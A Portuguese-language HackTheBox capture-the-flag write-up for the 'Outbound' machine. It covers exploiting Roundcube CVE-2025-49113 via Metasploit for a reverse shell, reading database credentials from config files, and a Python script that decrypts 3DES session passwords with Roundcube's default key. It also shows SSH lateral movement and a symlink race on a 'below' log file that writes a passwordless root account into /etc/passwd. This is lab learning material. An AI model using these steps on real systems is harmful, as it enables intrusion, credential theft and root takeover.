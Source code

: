 # HackTheBox - Outbound (Write-up)

Este é um write-up detalhado da máquina **Outbound** no HackTheBox.  
O objetivo foi explorar vulnerabilidades no serviço de e-mail **Roundcube**, escalar privilégios e capturar as flags de `user.txt` e `root.txt`.

---

## 📌 Sumário
- [Reconhecimento](#-reconhecimento)
- [Acesso Inicial](#-acesso-inicial)
- [Exploração do Roundcube](#-exploração-do-roundcube)
- [Decodificando Credenciais](#-decodificando-credenciais)
- [Movendo para SSH](#-movendo-para-ssh)
- [Escalada de Privilégios](#-escalada-de-privilégios)
- [Flags](#-flags)
- [Conclusão](#-conclusão)

---

## 🔎 Reconhecimento

Primeiro, realizei um scan com **nmap** e **dirsearch** para encontrar subdomínios.  
Resultado: apenas as portas **22 (SSH)** e **80 (HTTP)** estavam abertas.

Adicionei o host ao `/etc/hosts`:

```
10.10.11.77 outbound.htb
```

---

## 🔑 Acesso Inicial

A plataforma nos forneceu as credenciais:

```
tyler / LhKL1o9Nm3X2
```

Com elas, foi possível logar em `outbound.htb`.  
O site disponibilizava um **webmail** baseado no **Roundcube**, em versão vulnerável.

---

## 💥 Exploração do Roundcube

A vulnerabilidade **CVE-2025-49113** foi explorada com o **Metasploit**:

```jsx
msfconsole
search roundcube
use 'version displayed'
```

Configuração do exploit:

```jsx
set HOST mail.outbound.htb
set RHOSTS 10.10.11.77
set USERNAME tyler
set PASSWORD LhKL1o9Nm3X2
set LHOST tun0
set VHOST mail.outbound.htb
run
```

Resultado: shell como `www-data@mail.outbound.htb`.

---

## 📂 Decodificando Credenciais

Após obter uma shell, acessei o arquivo de configuração:

```bash
cat /var/www/html/roundcube/config/config.inc.php
```

Com isso, consegui acessar o banco de dados MySQL:

```bash
mysql -u roundcube -p   # senha: RCDBPass2025
use roundcube;
select * from session;
```

Isso revelou credenciais armazenadas em **base64 + 3DES**.  
Usei o script abaixo para decodificar:

```python
from base64 import b64decode
from Crypto.Cipher import DES3
from Crypto.Util.Padding import unpad

data = {
    'password': 'L7Rv00A8TuwJAr67kITxxcSgnIk25Am/',
    'auth_secret': 'DpYqv6maI9HxDL5GhcCd8JaQQW',
    'request_token': 'TIsOaABA1zHSXZOBpH6up5XFyayNRHaw'
}

KEY = b'rcmail-!24ByteDESkey*Str'

def decrypt_3des(value):
    try:
        raw = b64decode(value)
        iv = raw[:8]
        ciphertext = raw[8:]
        cipher = DES3.new(KEY, DES3.MODE_CBC, iv)
        decrypted = unpad(cipher.decrypt(ciphertext), DES3.block_size)
        return decrypted.decode('utf-8')
    except Exception as e:
        return f"Erro: {e}"

for k, v in data.items():
    print(f"{k.upper()}: {decrypt_3des(v)}")
```

---

## 🖥️ Movendo para SSH

Com as credenciais decodificadas, tentei acesso via SSH:

```bash
ssh jacob@10.10.11.77

# ops, It does not work
```

Então, verifiquei a inbox de Jacob:

```bash
cat /home/jacob/mail/INBOX/jacob
```

Encontrei uma senha válida:

```
gY4Wr3a1evp4
```

Agora, o acesso via SSH funcionou. 🎉

---

## 🚀 Escalada de Privilégios

Com acesso ao usuário `jacob`, explorei os diretórios de log:

```bash
ls -lR /var/log
```

Foi encontrado `error_root.log`, vulnerável a **symlink**.  
Utilizei o seguinte exploit:

```bash
echo 'pwn::0:0:pwn:/root:/bin/bash' > /tmp/fakepass
```

Se ocorrer erro no `cp`, use o loop:

``` .
while true; do
  rm -f /var/log/below/error_root.log
  ln -s /etc/passwd /var/log/below/error_root.log
  cp /tmp/fakepass /var/log/below/error_root.log && break
done
. ```

Agora, basta trocar para o usuário `pwn`:

```bash
su pwn
```

---

## 🏁 Flags

**User Flag**:

```bash
cat /home/jacob/user.txt
```

**Root Flag**:

```bash
cat /root/root.txt
```

---

## ✅ Conclusão

A máquina **Outbound** explorou uma cadeia interessante:

1. Credenciais iniciais → acesso ao Roundcube.  
2. Exploração do Roundcube (CVE) → shell web.  
3. Decodificação de credenciais (MySQL + 3DES).  
4. Movimento lateral via SSH.  
5. Escalada de privilégios com symlink em logs.  
6. Captura das flags `user.txt` e `root.txt`.  

```
Status: PWNED 🏴‍☠️
```
